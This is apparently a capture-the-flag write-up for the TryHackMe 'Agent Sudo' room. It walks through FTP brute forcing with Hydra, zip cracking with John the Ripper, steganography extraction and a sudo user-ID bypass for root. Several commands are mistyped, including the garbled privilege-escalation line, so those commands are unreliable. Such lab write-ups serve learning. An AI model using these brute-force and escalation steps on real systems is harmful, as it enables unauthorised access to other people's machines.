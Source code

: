 ```yaml
---
title: Agent Sudo
premalink: /agentSudo
---
```

# ![front](saharshtapi.github.io/images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](images/agentsudo/1.png)
  - we can brute force different Agents
    >Curl "http://ip" -H "User-Agent: A" -L
		>Curl "http://ip" -H "User-Agent: B" -L
		>Curl "http://ip" -H "User-Agent: C" -L
![2](images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  >hydra -l cxxxx -P /rockyou.txt ftp://ip
![3](images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    >John2zip 8072.zip > hash.txt
    >	John hash.txt --wordlist=/rockyou.tx
![4](images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    >echo " " |base64-d (Area51)
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt*
    >steghide extract -sf cute-alien.jpeg
![5](images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](saharshtapi.github.io/images/agentsudo/user.png)
2.Download the image 
  >scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    >sudo #u-1 /bin/bash

### Root Flag:
![root](saharshtapi.github.io/images/agentsudo/root.png)

